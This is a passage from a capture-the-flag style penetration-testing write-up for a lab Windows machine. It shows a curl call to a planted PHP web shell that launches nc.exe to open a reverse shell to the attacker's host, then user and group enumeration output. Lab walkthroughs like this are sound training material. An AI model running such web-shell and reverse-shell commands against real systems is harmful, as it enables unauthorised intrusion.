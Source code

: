 ```
               7 Dir(s)  14,795,485,184 bytes free
        2       3       4       5       6
                                                  
```
```
└─$ curl -s 'http://10.10.10.167/shell.php?cmd=\programdata\nc.exe+10.10.16.9+6666+-e+cmd'                  

```

![](./images/14.png)

## User
- Enumerate
```
C:\inetpub\wwwroot>dir \users
dir \users
 Volume in drive C has no label.
 Volume Serial Number is DC9E-2AFB

 Directory of C:\users

11/05/2019  03:34 PM    <DIR>          .
11/05/2019  03:34 PM    <DIR>          ..
10/01/2023  02:44 PM    <DIR>          Administrator
11/01/2019  12:09 PM    <DIR>          Hector
10/21/2019  05:29 PM    <DIR>          Public
               0 File(s)              0 bytes
               5 Dir(s)  14,795,485,184 bytes free
```
```
C:\inetpub\wwwroot>whoami /groups
whoami /groups

GROUP INFORMATION
-----------------

Group Name                           Type             SID          Attributes                                        
==================================== ================ ============ ==================================================
Mandatory Label\High Mandatory Level Label            S-1-16-12288                                                   
Everyone                             Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\IIS_IUSRS                    Alias            S-1-5-32-568 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                        Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\SERVICE                 Well-known group S-1-5-6      Group used for deny only                          
```